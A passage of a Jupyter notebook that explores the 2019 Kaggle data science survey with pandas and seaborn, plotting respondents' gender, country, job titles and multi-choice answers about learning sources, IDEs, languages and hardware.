#                                        'Q30_Part_9','Q30_Part_10','Q30_Part_11','Q30_Part_12',\
#                                        'Q31_Part_1','Q31_Part_2','Q31_Part_3','Q31_Part_4','Q31_Part_5','Q31_Part_6','Q31_Part_7','Q31_Part_8',\
#                                        'Q31_Part_9','Q31_Part_10','Q31_Part_11','Q31_Part_12',\
#                                        'Q32_Part_1','Q32_Part_2','Q32_Part_3','Q32_Part_4','Q32_Part_5','Q32_Part_6','Q32_Part_7','Q32_Part_8',\
#                                        'Q32_Part_9','Q32_Part_10','Q32_Part_11','Q32_Part_12',\
#                                        'Q33_Part_1','Q33_Part_2','Q33_Part_3','Q33_Part_4','Q33_Part_5','Q33_Part_6','Q33_Part_7','Q33_Part_8',\
#                                        'Q33_Part_9','Q33_Part_10','Q33_Part_11','Q33_Part_12',\
#                                        'Q34_Part_1','Q34_Part_2','Q34_Part_3','Q34_Part_4','Q34_Part_5','Q34_Part_6','Q34_Part_7','Q34_Part_8',\
#                                        'Q34_Part_9','Q34_Part_10','Q34_Part_11','Q34_Part_12'],axis=1)

In [0]:
#FinalData = pd.concat([multi_response,X_enc], axis=1)

In [0]:
X_enc = X_enc.drop(['Q2_OTHER_TEXT','Q5_OTHER_TEXT','Q9_OTHER_TEXT','Q12_OTHER_TEXT','Q13_OTHER_TEXT','Q14_Part_1_TEXT','Q14_Part_2_TEXT','Q14_Part_3_TEXT',\
                            'Q14_Part_4_TEXT','Q14_Part_5_TEXT','Q14_OTHER_TEXT','Q16_OTHER_TEXT','Q17_OTHER_TEXT','Q18_OTHER_TEXT','Q19_OTHER_TEXT',\
                            'Q20_OTHER_TEXT','Q21_OTHER_TEXT','Q24_OTHER_TEXT','Q25_OTHER_TEXT','Q26_OTHER_TEXT','Q27_OTHER_TEXT','Q28_OTHER_TEXT',\
                            'Q29_OTHER_TEXT','Q30_OTHER_TEXT','Q31_OTHER_TEXT','Q32_OTHER_TEXT','Q33_OTHER_TEXT','Q34_OTHER_TEXT'],axis=1)

In [0]:
X_enc.dtypes

Time from Start to Finish (seconds)    object
Q1                                     object
Q2                                     object
Q3                                     object
Q4                                     object
                                        ...  
Q34_Part_8_AWS DynamoDB                 uint8
Q34_Part_9_Azure SQL Database           uint8
Q34_Part_10_Google Cloud SQL            uint8
Q34_Part_11_None                        uint8
Q34_Part_12_Other                       uint8
Length: 218, dtype: object

In [0]:
X_enc.head()

,Time from Start to Finish (seconds),Q1,Q2,Q3,Q4,Q5,Q6,Q7,Q8,Q10,Q11,Q14,Q15,Q19,Q22,Q23,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,510,22-24,Male,France,Master’s degree,Software Engineer,"1000-9,999 employees",0,I do not know,"30,000-39,999",$0 (USD),"Basic statistical software (Microsoft Excel, G...",1-2 years,Python,Never,1-2 years,0,0,0,0,0,0,0,0,1,0,0,1,0,0,0,1,1,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
1,423,40-44,Male,India,Professional degree,Software Engineer,"> 10,000 employees",20+,"We have well established ML methods (i.e., mod...","5,000-7,499","> $100,000 ($USD)","Cloud-based data software & APIs (AWS, GCP, Az...",I have never written code,NaN,NaN,NaN,1,1,1,1,0,0,0,0,0,0,0,1,0,1,1,1,0,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
2,83,55-59,Female,Germany,Professional degree,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
3,391,40-44,Male,Australia,Master’s degree,Other,"> 10,000 employees",20+,I do not know,"250,000-299,999","$10,000-$99,999","Local development environments (RStudio, Jupyt...",1-2 years,Python,Once,2-3 years,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,1,1,1,0,0,0,1,1,1,...,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0
4,392,22-24,Male,India,Bachelor’s degree,Other,0-49 employees,0,No (we do not use ML methods),"4,000-4,999",$0 (USD),"Local development environments (RStudio, Jupyt...",< 1 years,Python,Never,< 1 years,0,0,0,0,0,0,0,0,0,0,0



In [0]:
plt.figure(figsize=(10,5))
sb.countplot(x = 'Q2',data = X_enc)
plt.show()

Most of respondents are males.





In [0]:
plt.figure(figsize=(10,5))
sb.countplot(x = 'Q3',data = X_enc)
plt.xticks(rotation=90)
plt.show()

Most of respondents are from India and USA.

In [0]:
# Let's see top10 countries more detailed.
X_enc['Q3'].value_counts()[:10].reset_index()

,index,Q3
0,India,4786
1,United States of America,3085
2,Other,1054
3,Brazil,728
4,Japan,673
5,Russia,626
6,China,574
7,Germany,531
8,United Kingdom of Great Britain and Northern I...,482
9,Canada,450


In [0]:
top_10_country = X_enc['Q3'].value_counts()[:10].reset_index()



In [0]:
#Pie Chart
top_10_country['Q3'] = top_10_country['Q3']*100/top_10_country['Q3'].sum()
#explode=(0.1,0,0,0,0,0,0,0,0,0)
colors=['g','b','r','c','m','y','r','k','m','b']
fig, ax=plt.subplots(figsize=(10,5))
ax.pie(top_10_country['Q3'],labels = top_10_country['index'],colors=colors)
plt.tight_layout()
plt.show()



In [0]:
plt.figure(figsize=(12,5))
sb.countplot(x = 'Q1',hue = 'Q2',data = X_enc)
plt.show()

In [0]:
job = pd.DataFrame(X_enc.iloc[1:]['Q5'].value_counts().sort_values(ascending=False)).reset_index().head(25)
job

,index,Q5
0,Data Scientist,4085
1,Student,4014
2,Software Engineer,2704
3,Other,1690
4,Data Analyst,1598
5,Research Scientist,1470
6,Not employed,942
7,Business Analyst,778
8,Product/Project Manager,723
9,Data Engineer,624


Text(0.5, 1.0, 'Job title')



In [0]:
plt.figure(figsize=(12,5))
sb.barplot(x=job['Q5'],y=job['index'], palette='viridis')
plt.xlabel('Count')
plt.ylabel('', fontsize=10)
plt.xticks(rotation=0)
plt.yticks(rotation=0)
plt.title('Job title')

In [0]:
job = X_enc['Q5'].value_counts()
job

Data Scientist             4085
Student                    4014
Software Engineer          2705
Other                      1690
Data Analyst               1598
Research Scientist         1470
Not employed                942
Business Analyst            778
Product/Project Manager     723
Data Engineer               624
Statistician                322
DBA/Database Engineer       156
Name: Q5, dtype: int64



In [0]:
#total = int(X_enc.iloc[1]['Q19'])
plt.figure(figsize=(12,5))
ax = sb.barplot(X_enc.groupby(['Q19']).size().reset_index(name='counts')['Q19'][:-1], X_enc.groupby(['Q19']).size().reset_index(name='counts')['counts'][:-1])

In [0]:
def plot_multi_choice_dist(question, number_of_parts, xlabel, ylabel):
    sb.set(rc={'figure.figsize':(15,8)})
    sb.set(style="darkgrid")

    cats, counts = [], []
    total = int(survey.iloc[1][question])

    for i in range(number_of_parts):
        cats.append(multi_response[multi_response[f'{question}_Part_{i+1}'].notnull()][f'{question}_Part_{i+1}'][1:].unique()[0])
        counts.append(int(multi_response[multi_response[f'{question}_Part_{i+1}'].notnull()][f'{question}_Part_{i+1}'].shape[0]))
    ax = sb.barplot(cats, counts)
    ax.set(xlabel=xlabel, ylabel=ylabel, title=f'{xlabel} vs. {ylabel}')
    ax.set_xticklabels(ax.get_xticklabels(), rotation=45, ha="right")
    for p in ax.patches: # loop to all objects and plot group wise % distribution
        height = p.get_height()
        ax.text(p.get_x()+p.get_width()/2.,
                height + 5,
                '{:1.2f}%'.format(height/total*100),
                ha="center", fontsize=15) 
    return plt



In [0]:
plot_multi_choice_dist('Q9', 8, 'Responsibilities', '# of responses').show()



In [0]:
plot_multi_choice_dist('Q12', 12, 'ML/DS Learning Source', '# of responses').show()



In [0]:
plot_multi_choice_dist('Q13', 12, 'ML/DS Learning Platform', '# of responses').show()



In [0]:
plot_multi_choice_dist('Q16', 12, 'IDE', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q17', 12, 'Hosted notebook platform', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q18', 12, 'Programming languages', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q20', 12, 'Visualization tools/libraries', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q21', 5, 'Specialized Hardwares', 'number of responses').show()

